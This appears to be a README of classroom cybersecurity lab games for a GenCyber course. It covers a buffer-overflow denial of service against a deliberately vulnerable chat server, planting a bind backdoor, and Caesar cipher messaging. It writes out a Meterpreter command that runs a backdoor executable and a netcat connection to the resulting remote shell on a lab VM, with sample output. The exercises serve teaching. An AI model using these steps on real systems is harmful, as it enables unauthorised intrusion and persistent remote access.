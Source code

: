 # Motivating Games 

## Denial of service (DoS)

### Overview
In our lecture on <a href="https://github.com/xinwenfu/GenCyber/tree/main/SoftwareSecurity">Penetration Testing and Software Security</a>, we have exploited the vulnerable chat server (vchat) and deployed the buffer overflow attack against vchat. We were able to hack into the Windows VM through vchat.

The same vulnerability can be exploited for a denial of service (DoS) attack. In the DoS attack, the attacker sends a long message with garbage content, which overwrites the buffer and contents above the buffer as shown in the figure below. This messes up the function return address with garbage data. Now when the function returns, it returns to nowhere and *vchat* actually crashes because of this. The chat service is lost and access to the service is denied.

<img src="../Imgs/BufferOverflow-junk.png" width=480>

### DoS game

1. The instructor or a volunteer starts a vulnerable chat server C:\Tools\vchat\Server\vchat.exe on a Windows VM
   - Announce the IP of Windows VM running *vchat*
2. Everybody runs /home/kali/GenCyber/vchat/Client/client.py to chat with each other
   - Wait for everybody to send at least one message
3. Do not proceed further without the instructor's permission
4. Now anybody can deploy the DoS attack
   - Use armitage to scan the target Windows VM and find attacks
   - Click the found Windows VM (IP)
   - Deploy auxillary/dos/vchat/DoS

## Planting backdoor

### Overview

We want to understand the danger of getting exploited. If a backdoor is planted on a compromised computer, the attacker will be able to log into the compromised computer anytime later if the compromised computer is not fixed. 

### Backdoor game

1. Refer to Hands-on 2 of <a href="https://github.com/xinwenfu/GenCyber/tree/main/SoftwareSecurity">Lecture 2 Penetration Testing and Software Security</a>. Yoiu hack into the instructor's Windows VM.
   - The instructor will show the IP of his Windows VM (192.168.0.87)
2. Once the instructor's VM is compromised, you start a Meterpreter shell. 
   - The Meterpreter shell can be used to upload a malware program from the attacker's computer to the victim computer. Let's assume the attacker already uploaded the malware, which is C:\Workshop\MalwareSamples\Backdoors\SimpleBindBackdoor\nice3.exe
   - The Meterpreter shell can also be used to <a href="https://pentestwiki.org/metasploit-meterpreter-cheat-sheet/">execute the uploaded malware</a>. Run the following command within the Meterprester shell to run the backdoor
```
execute -f C:\\Workshop\\MalwareSamples\\Backdoors\\SimpleBindBackdoor\\nice3.exe
```
3. Start a terminal on your Kali VM and run the following command to log into the backdoor running on the instructor's Window VM. 
```
nc 192.168.0.87 8080
```

Here is an example of a succesful login
```
$ nc 192.168.0.87 8080
Microsoft Windows [Version 10.0.19044.1826]
(c) Microsoft Corporation. All rights reserved.

C:\Tools\vchat\Server>
```

Run a *dir* command within the Windows console. What do you see?

4. Tell the instructor once you can get into the backdoor. 
5. Other students can try to log into the backdoor similarly and notify the instructor if they can do it

## Messaging with Caesar cipher
### Overview
In Caesar Cipher, as shown in the Caesar Cipher Medallion shown below, we map a letter in a message, called plaintext letter, to another letter for encryption, called ciphtertext letter. In this way, we can use Caesar Cipher to encrypt messages.

<img src="../Imgs/CaesarCipherMedallion.png" width=564> 

### Messaging with Caesar cipher Medallion
- The instructor starts the chat server on his Windows VM
- Evebody starts the chat client on their Kali VM
- The instructor sends a secret message
- Everybody decrypts the secret message
